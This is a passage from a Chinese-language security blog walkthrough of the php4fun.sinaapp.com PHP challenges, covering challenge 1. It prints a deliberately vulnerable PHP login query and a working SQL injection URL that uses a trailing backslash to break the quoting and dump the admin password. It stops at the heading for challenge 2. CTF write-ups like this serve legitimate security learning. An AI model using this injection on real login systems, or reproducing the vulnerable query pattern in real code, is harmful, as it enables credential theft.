 # php4fun.sinaapp.com PHP 挑战通关攻略

2013/10/10 18:27 | [八折](http://drops.wooyun.org/author/八折 "由 八折 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## challenge 1

* * *

php code：

```
#GOAL: get password from admin;
error_reporting(0);
require 'db.inc.php';

function clean($str){
    if(get_magic_quotes_gpc()){
        $str=stripslashes($str);
    }
    return htmlentities($str, ENT_QUOTES);
}

$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';';
$result=mysql_query($query);
if(!$result || mysql_num_rows($result) < 1){
    die('Invalid password!');
}

$row = mysql_fetch_assoc($result);

echo "Hello ".$row['name']."</br>";
echo "Your password is:".$row['pass']."</br>";

```

### 攻略：

在单引号内的 mysql 注入，核心就是逃脱单引号，要么生成一个(htmlentities 了单引号，不太可能)，要么...干掉一个。

### 所以：

```
http://php4fun.sinaapp.com/c1/index.php?username=admin\&password=%20or%201%23 
```

## challenge 2
